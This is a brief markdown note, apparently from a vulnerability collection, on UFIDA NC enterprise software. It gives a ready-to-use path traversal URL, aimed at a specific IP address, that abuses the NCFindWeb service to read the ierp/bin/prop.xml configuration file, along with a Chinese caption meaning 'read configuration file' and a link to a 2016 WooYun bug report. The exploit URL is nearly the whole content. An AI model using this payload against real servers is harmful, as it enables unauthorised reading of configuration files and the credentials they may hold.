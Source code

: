 ## UFIDA
http://60.16.28.186/NCFindWeb?service=IPreAlertConfigService&filename=../../ierp/bin/prop.xml

读取配置文件

http://wooyun.tangscan.cn/static/bugs/wooyun-2016-0178331.html